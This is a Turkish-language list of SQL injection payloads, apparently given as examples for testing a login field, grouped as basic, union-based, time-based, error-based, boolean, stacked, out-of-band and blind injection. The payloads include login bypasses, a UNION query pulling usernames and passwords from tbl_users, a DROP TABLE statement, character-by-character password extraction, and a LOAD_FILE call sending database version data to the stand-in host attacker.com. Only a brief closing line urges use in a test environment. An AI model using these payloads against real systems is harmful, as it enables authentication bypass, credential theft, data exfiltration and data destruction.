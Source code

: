 SQL Injection testi için deneyebileceğiniz bazı örnek sorgular şunlardır:
Temel SQL Injection:
admin' OR '1'='1
admin' --
admin' #
Union-Based Injection:
admin' UNION SELECT 1,2,3 --
admin' UNION SELECT username,password,3 FROM tbl_users --
Time-Based Injection:
admin' AND SLEEP(5) --
admin' AND pg_sleep(5) --
Error-Based Injection:
admin' AND 1=CONVERT(int,(SELECT @@version)) --
admin' AND 1=CONVERT(int,(SELECT user())) --
Boolean-Based Injection:
admin' AND 1=1 --
admin' AND 1=2 --
Stacked Queries:
admin'; DROP TABLE tbl_users --
admin'; SELECT * FROM tbl_users --
Out-of-Band Injection:
admin' || (SELECT LOAD_FILE(concat('\\\\',(SELECT @@version),'.attacker.com\\share\\'))) --
Blind Injection:
admin' AND (SELECT SUBSTRING(password,1,1) FROM tbl_users WHERE username='admin')='a' --
admin' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM tbl_users WHERE username='admin')=97 --
Bu sorguları test ederken dikkatli olun, çünkü bazıları veritabanınıza zarar verebilir. Test ortamında kullanmanız önerilir.